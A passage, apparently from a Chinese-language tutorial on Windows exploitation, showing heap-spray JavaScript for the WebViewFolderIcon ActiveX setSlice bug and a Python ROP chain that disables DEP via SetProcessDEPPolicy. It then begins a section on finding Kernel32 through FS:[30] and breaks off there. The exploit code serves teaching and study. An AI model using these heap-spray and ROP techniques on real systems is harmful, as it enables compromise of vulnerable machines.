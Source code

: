 ```
    {
        try{ 
            var tar = new
 ActiveXObject('WebViewFolderIcon.WebViewFolderIcon.1');
            tar.setSlice(0x7ffffffe, 0x05050505, 0x05050505,0x05050505 ); 
        }catch(e){}
    }
    function getSpraySlide(spraySlide, spraySlideSize)
    {
        while (spraySlide.length*2<spraySlideSize)
        {
            spraySlide += spraySlide;
        }
        spraySlide = spraySlide.substring(0,spraySlideSize/2);
        return spraySlide;
    }

</SCRIPT> 
```

Flash Player 和 Adobe Reader 中也会采用类似的方法来达到堆填充的目的。这里就不举相关例子了，有兴趣的话，可以在网络上搜索一下暴露的 POC。

**2、 ASLR+DEP**

地址随机化和数据执行保护在最新的操作系统中普遍采用的一种保护技术，若要执行 ShellCode，就必须要绕过 ASLR+DEP。目前的采用的方法主要有两种：泄露模块基址、使用未 ASRL 的 DLL 模块，最终目的就是绕过 DEP。

鉴于目前常见的技术是使用 ROP，代码形式简单如下：

```
## ROP 
rop =  struct.pack("<I",0x77bf362c) # POP EBX / RET
rop += struct.pack("<I",0x41414141) # junk
rop += struct.pack("<I",0x41414141) # junk
rop += struct.pack("<I",0xFFFFFFFF) # 00000000
rop += struct.pack("<I",0x7e810b7e) # INC EBX / RET

rop += struct.pack("<I",0x77bebb36) # POP EBP / RET
rop += struct.pack("<I",0x7C862144) # SetProcessDEPPolicy

rop += struct.pack("<I",0x77bf3b47) # POP EDI / RET
rop += struct.pack("<I",0x77be1110) # RET
rop += struct.pack("<I",0x77bf1891) # POP ESI / RET
rop += struct.pack("<I",0x77be2091) # RET

rop += struct.pack("<I",0x7e6ea62b) # PUSHAD / RET
 #### 
```

通过使用 ROP 的方式调用系统函数比如 SetProcessDEPPolicy、VirtualProtect 等函数修改一部分内存属性，将其改为可执行，然后再跳转执行。

**3、 FS:[30]获取 Kernel32 基址**

FS:[30]这种方法本质是通过 PEB 的方式来获取到 Kernel32 的基址，进而获取到 Kernel32 中函数地址。代码如下：
